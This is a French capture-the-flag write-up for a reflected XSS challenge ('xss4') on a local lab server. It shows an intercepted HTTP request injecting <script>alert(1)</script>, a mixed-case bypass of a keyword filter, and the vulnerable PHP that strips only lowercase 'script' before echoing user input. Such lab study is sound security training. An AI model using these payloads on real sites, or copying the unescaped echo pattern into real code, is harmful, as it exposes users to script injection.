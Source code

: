 # xss4

## Exploitation

Le quatrième challenge demande explicitement de tenter une injection en utilisant la balise `<script></script>` :&#x20;

![](<../../../.gitbook/assets/image (13) (1).png>)

Une première protection que je rencontre est un contrôle du format de l'adresse email :&#x20;

![](<../../../.gitbook/assets/image (2) (1) (2).png>)

Un contournement en utilisant directement Burp est possible, mais ma payload ne semble pas fonctionner car le mot clé `script` est filtré :&#x20;

![](<../../../.gitbook/assets/image (11) (2) (1).png>)

```http
POST /xss4/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss4/

user_email=<script>alert(1)</script>&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2094
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="row">
  <p style="color:red;" class="well">
    <strong></strong><>alert(1)</> is not registered.
  </p>
</div>
```

Ici il doit s'agir d'une protection de type pattern matching, je tente de le contourner en modifiant ma façon d'écrire la balise Javascript, soit `<ScRiPT>alert(1)</sCRIpt>` :&#x20;

![](<../../../.gitbook/assets/image (6) (3).png>)

## Analyse du code source

L'adresse email est récupéré dans la variable `$email`. Avant son affichage par la directive `echo`, un traitement est effectué par la méthode `xss_check_1()`. Cette méthode remplace le mot "script" par une chaîne de caractères vide mais sans faire attention à son format (minuscule, majuscule, répétition, etc) :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['user_email'])) {
    $email = $_POST['user_email'];
  }

  function xss_check_1($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("script", "", $data);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <p style="color:red;" class="well">
    <strong></strong><?php echo xss_check_1($email); ?> is not registered.
  </p>
</div>
```
